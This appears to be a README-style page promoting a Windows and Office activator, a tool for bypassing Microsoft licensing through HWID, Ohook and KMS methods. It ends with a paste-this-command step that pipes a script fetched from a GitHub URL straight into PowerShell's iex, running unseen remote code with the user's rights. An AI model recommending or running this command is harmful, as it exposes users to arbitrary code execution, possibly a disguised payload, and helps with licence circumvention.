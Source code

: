 # Microsoft Offices Activator (MOA)

A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections
Features
HWID (Digital License) Method to Permanently Activate Windows
Ohook Method to Permanently Activate Office

KMS38 Method to Activate Windows/Server Till the Year 2038

Online KMS Method to Activate Windows/Server/Office For 180 Days (Lifetime With Renewal Task)

Advanced Activation Troubleshooting

$OEM$ Folders For Preactivation

Change Windows Edition

Check Windows/Office Activation Status

Available in All In One and Separate Files Versions

Fully Open Source and Base

# PowerShell

Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
Copy and paste the code below and press enter
# irm https://raw.githubusercontent.com/0x3c62723e/MOA/main/git.ps1 | iex
